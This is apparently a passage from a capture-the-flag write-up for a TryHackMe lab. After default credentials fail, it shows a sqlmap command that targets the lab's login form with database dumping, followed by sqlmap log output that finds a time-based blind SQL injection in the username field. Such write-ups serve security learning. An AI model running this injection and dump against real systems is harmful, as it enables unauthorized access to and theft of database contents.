 #### Testing Default Credentials

We attempt common default credentials, but they do not work.

![Login Failed](/ctf/tryhackme/cheese-ctf/login-failed.png)

Since authentication fails, **SQL Injection** is a promising next step.

## Exploiting SQL Injection

We use **sqlmap** to automate SQL injection on the login form:

```bash
sqlmap -u "http://10.10.246.171/login.php" --data="username=admin&password=admin" --dump
```

The output indicates that the `username` parameter is vulnerable to **time-based blind SQLi**, and the injection
**bypasses authentication**.

Additionally, we observe a **302 redirect** leading to a hidden page:

```bash
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.9.1#dev}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:26:42 /2025-02-24/

[23:26:42] [INFO] testing connection to the target URL
[23:26:42] [INFO] checking if the target is protected by some kind of WAF/IPS
[23:26:42] [INFO] testing if the target URL content is stable
[23:26:42] [INFO] target URL content is stable
[23:26:42] [INFO] testing if POST parameter 'username' is dynamic
[23:26:43] [WARNING] POST parameter 'username' does not appear to be dynamic
[23:26:43] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[23:26:43] [INFO] testing for SQL injection on POST parameter 'username'
[23:26:43] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:26:44] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[23:26:44] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[23:26:44] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[23:26:45] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[23:26:45] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[23:26:45] [INFO] testing 'Generic inline queries'
[23:26:45] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[23:26:45] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[23:26:46] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[23:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[23:26:57] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[23:27:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
```